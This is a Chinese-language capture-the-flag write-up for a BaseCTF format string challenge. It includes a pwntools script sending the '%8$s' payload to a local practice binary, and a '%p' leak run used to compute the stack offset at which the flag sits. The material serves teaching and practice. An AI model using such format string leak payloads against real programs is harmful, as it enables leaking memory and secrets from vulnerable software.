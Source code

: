 # Basectf pwn方向“string_format_level0”

题目就是提示，格式化字符串主要的点就是找到偏移量（也可以直接一个个试试，不会太多）

```python
from pwn import *
p = process('./vuln')
payload = b'%8$s'
p.sendline(payload)
p.interactive()
```

## 偏移量计算

![alt text](image.png)

这里elf先是打开了flag文件，并且把flag的内容read到v6中，此时flag的值就在栈上，所以只要将flag从栈上泄露出来就好，刚好下面就有printf，存在格式化字符串漏洞

![alt text](image-1.png)

```text
>./vuln
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x7ffe277639f0 0x100 0x7effbc4807e2 0x21001 0x55aedd9902a0 (nil) 0x300000000 0x55aedd9902a0 0x10 0x2070252061616161 0x7025207025207025
```

可以看到我们输入的数据相对于栈的偏移为10，而flag在我们写入数据的上面两行，所以相对于栈的偏移是8

所以其实nc之后%8$s就行（将第8位以%s的格式输出）